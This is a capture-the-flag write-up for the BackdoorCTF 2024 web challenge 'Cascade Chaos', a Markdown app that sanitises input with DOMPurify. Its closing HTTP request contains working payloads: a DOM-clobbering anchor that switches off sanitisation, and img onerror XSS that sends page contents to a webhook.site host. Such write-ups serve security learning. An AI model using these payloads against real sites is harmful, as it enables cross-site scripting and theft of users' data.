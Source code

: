 ```yaml
---
title: "Cascade Chaos"
description: "A Markdown app that looks harmless... or is it? Can you find the subtle cracks in the system and make things a bit more... interesting? A little creativity goes a long way."
pubDate: 2024-12-23
ctf: "BackdoorCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-backdoor/icon.png"
---
```




Looking at the setup I presume its some dompurify exploit due to old version (`3.0.1` compared to latest `3.2.3` as of writing)
```html
...
  </style>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.1/purify.min.js"></script>
</head>
```

The markdown app seems to have dompurified input in the heading and then markdown payload:
```html
<body>
  <div class="heading">
  </div>

  <script>
    const heading = decodeURIComponent(`<%- heading -%>`);
    const headingDiv = document.querySelector(".heading");
    const content = DOMPurify.sanitize(heading);
    headingDiv.innerHTML = content;
  </script>
  <div class="content">
  </div>
  <button class="btn" id="showToAdminBtn">Show to Admin</button>

  <script>
    const body = decodeURIComponent(`<%- body -%>`);
    const contentDiv = document.querySelector(".content");
    if (window.isSafe) {
      contentDiv.innerHTML = body;
    } else {
      const sanitizedContent = DOMPurify.sanitize(body);
      contentDiv.innerHTML = sanitizedContent;
    }

    document.getElementById("showToAdminBtn").addEventListener("click", async () => {
      const contentDiv = document.querySelector(".content");
      const content = contentDiv.innerHTML.trim();
      const heading = document.querySelector(".heading").innerHTML.trim();

      const data = {
        content: content,
        heading: heading
      };
      let response = await fetch("/visit", {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify(data)
      });
      const result = await response.text();
      alert(result);
    });

  </script>
</body>
```

The Markdown payload is not sanitised if `window.isSafe` is set, so perhaps a prototype pollution in the heading, then normal XSS in Markdown?

The repo has an issue [Tampering by prototype pollution (high)](https://github.com/cure53/DOMPurify/security/advisories/GHSA-mmhx-hmjr-r674) A.K.A. `CVE-2024-45801` that is valid in <3.1.3 

Likely have to [commit diff for the 3.x patch](https://github.com/cure53/DOMPurify/commit/1e520262bf4c66b5efda49e2316d6d1246ca7b21)

## Post-CTF Solve

Turns out I'm completely wrong, thanks to my friend ([warlocksmurf](https://warlocksmurf.github.io/) my beloved) sharing their teams' path.

DOM clobbering (which I'd never heard of previously was the idea)

allows XSS on the remote service

```html
<a id="isSafe">
```
for the header

XSS in local service, colour parameter had injection point

```
POST /visit HTTP/1.1
Host: 35.224.222.30:4001
Content-Length: 323
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://35.224.222.30:4001
Referer: http://35.224.222.30:4001/convert?heading=%3Ca+id%3DisSafe%3E&content=%3Cimg%20src%3D%22x%22%20onerror%3D%22fetch(%27http%3A%2F%2Fhttpforever.com%27,%20%7B%20mode%3A%20%27no-cors%27%20%7D)%20.then(response%20%3D%3E%20response.text())%20.then(data%20%3D%3E%20location.href%20%3D%20%27https%3A%2F%2Fwebhook.site%2F0456830e-cbc2-4057-b98c-fe389f00f79c%2F%3Fc%3D%27%20%2B%20encodeURIComponent(data))%3B%22%3E
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "content": "<p><img src=\"x\" onerror=\"location.href='http://local:4002/flag?color=black</style><script>window.onload=function(){location.href=%27https://webhook.site/0456830e-cbc2-4057-b98c-fe389f00f79c/?c=%27%2bbtoa(document.documentElement.outerHTML)}</script>'\" ></p>",
  "heading": "<a id=\"isSafe\"></a>"
}
```